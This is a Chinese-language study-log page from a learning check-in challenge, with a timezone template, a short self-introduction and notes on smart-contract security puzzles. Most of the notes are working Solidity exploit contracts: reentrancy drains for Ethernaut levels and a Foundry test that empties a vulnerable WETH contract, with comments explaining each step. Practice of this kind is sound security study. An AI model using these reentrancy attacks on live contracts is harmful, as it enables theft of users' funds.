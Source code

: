 ```yaml
---
timezone: Pacific/Auckland
---
```


> 请在上边的 timezone 添加你的当地时区，这会有助于你的打卡状态的自动化更新，如果没有添加，默认为北京时间 UTC+8 时区
> 时区请参考以下列表，请移除 # 以后的内容

timezone: Pacific/Honolulu # 夏威夷-阿留申标准时间 (UTC-10)

timezone: America/Anchorage # 阿拉斯加标准时间 (UTC-9)

timezone: America/Los_Angeles # 太平洋标准时间 (UTC-8)

timezone: America/Denver # 山地标准时间 (UTC-7)

timezone: America/Chicago # 中部标准时间 (UTC-6)

timezone: America/New_York # 东部标准时间 (UTC-5)

timezone: America/Halifax # 大西洋标准时间 (UTC-4)

timezone: America/St_Johns # 纽芬兰标准时间 (UTC-3:30)

timezone: America/Sao_Paulo # 巴西利亚时间 (UTC-3)

timezone: Atlantic/Azores # 亚速尔群岛时间 (UTC-1)

timezone: Europe/London # 格林威治标准时间 (UTC+0)

timezone: Europe/Berlin # 中欧标准时间 (UTC+1)

timezone: Europe/Helsinki # 东欧标准时间 (UTC+2)

timezone: Europe/Moscow # 莫斯科标准时间 (UTC+3)

timezone: Asia/Dubai # 海湾标准时间 (UTC+4)

timezone: Asia/Kolkata # 印度标准时间 (UTC+5:30)

timezone: Asia/Dhaka # 孟加拉国标准时间 (UTC+6)

timezone: Asia/Bangkok # 中南半岛时间 (UTC+7)

timezone: Asia/Shanghai # 中国标准时间 (UTC+8)

timezone: Asia/Taipei # 台灣标准时间 (UTC+8)

timezone: Asia/Tokyo # 日本标准时间 (UTC+9)

timezone: Australia/Sydney # 澳大利亚东部标准时间 (UTC+10)

timezone: Pacific/Auckland # 新西兰标准时间 (UTC+12)

---

# {你的名字}

1. 自我介绍
   一个区块链工程专业的国内在读本科生，关注密码学和合约审计安全
2. 你认为你会完成本次残酷学习吗？
   包的
## Notes

<!-- Content_START -->

### 2024.08.29

回顾了一下ethernaut前面的题目：
11. 
pragma solidity ^0.7;
interface IReentrancy {
    function donate(address) external payable;
    function withdraw(uint256) external;
}
contract Hack { 
    IReentrancy private immutable target;
    constructor(address _target){
        target =IReentrancy(_target);
    }
    function attack() external payable{
        //这个合约一开始先给被攻击合约转入1wei
        target.donate{value:1e18}(address(this));
        //这个用法表达的意思为调用这个函数并且传递自己合约的地址
        target.withdraw(1e18);
        require (address(target).balance==0,"target balance>0");
        selfdestruct(payable(msg.sender));
    }
    receive() external payable{
        uint amount=min(1e18,address(target).balance);
        if(amount>0){
        target.withdraw(amount);//这里再重入攻击
        }
    }
    function min(uint x,uint y) private pure returns (uint){
        return x<=y?x:y;
    }
}


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
    contract Hack {
        Elevator private immutable target;
        uint private count=0;
        constructor(address _target){
            target=Elevator(_target);
        }
        function pwn()external {
            target.goTo(1);
            require(target.top(),"not top");
        }
        function isLastFloor(uint) external returns (bool){
            count++;
            return count>1;
        }
        
    }

12. 
interface Building {
  function isLastFloor(uint) external returns (bool);
}
//这边这个合约的接口是一个判断是不是顶楼的，这边其实不重要
contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
//这边给Building的接口了一个地址--就是攻击合约的地址
    if (! building.isLastFloor(_floor)) {//由于这里没有对这个函数定义，所以自己写一个合约来进行攻击
      floor = _floor;
      top = building.isLastFloor(floor);//这题判断是不是成功就是看这个地方top的值是不是true
    }
  }
}

### 2024.07.30

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
//@audit 这题就是因为 WETH 内继承的 ERC20 合约没有被重入锁修饰，所以可以再取款的回调函数内部进行转账
import "forge-std/Test.sol";
import {ModernWETH} from "../src/2_ModernWETH/ModernWETH.sol";

/*////////////////////////////////////////////////////////////
//          DEFINE ANY NECESSARY CONTRACTS HERE             //
//    If you need a contract for your hack, define it below //
////////////////////////////////////////////////////////////*/

contract Hack{
    ModernWETH public modernWETH;
    
    
    constructor(ModernWETH _modernWETH) payable {
        modernWETH = _modernWETH;
    }
    
    function hack() external payable {
        modernWETH.deposit{value:msg.value}();
        modernWETH.withdrawAll();
    }

    receive() external payable{
        
        if( address(modernWETH).balance >= 0 ){
            modernWETH.transfer(tx.origin,10 ether);
            }
            payable(tx.origin).transfer(msg.value);
    }
    
}

/*////////////////////////////////////////////////////////////
//                     TEST CONTRACT                        //
////////////////////////////////////////////////////////////*/
contract Challenge2Test is Test {
    ModernWETH public modernWETH;
    address public whitehat = makeAddr("whitehat");

    function setUp() public {
        modernWETH = new ModernWETH();

        /// @dev contract has locked 1000 ether, deposited by a whale, you must rescue it
        address whale = makeAddr("whale");
        vm.deal(whale, 1000 ether);
        vm.prank(whale);
        modernWETH.deposit{value: 1000 ether}();

        /// @dev you, the whitehat, start with 10 ether
        vm.deal(whitehat, 10 ether);
    }

    function testWhitehatRescue() public {
        vm.startPrank(whitehat, whitehat);
        /*////////////////////////////////////////////////////
        //               Add your hack below!               //
        //                                                  //
        // terminal command to run the specific test:       //
        // forge test --match-contract Challenge2Test -vvvv //
        ////////////////////////////////////////////////////*/

        Hack attackcontract = new Hack(modernWETH);
        
        while(address(whitehat).balance < 1010 ether){
            uint amount = address(whitehat).balance <= address(modernWETH).balance 
            ? address(whitehat).balance
            : address(modernWETH).balance;
            //如果 whitehat 内的钱小于 modernWETH 那么久 hack 一波数量为 whitehat 内的钱，反之则后者
            attackcontract.hack{value: amount}();
            modernWETH.withdrawAll();
        }

        //==================================================//
        vm.stopPrank();

        assertEq(address(modernWETH).balance, 0, "ModernWETH balance should be 0");
        // @dev whitehat should have more than 1000 ether plus 10 ether from initial balance after the rescue
        assertEq(address(whitehat).balance, 1010 ether, "whitehat should end with 1010 ether");
    }
}


<!-- Content_END -->
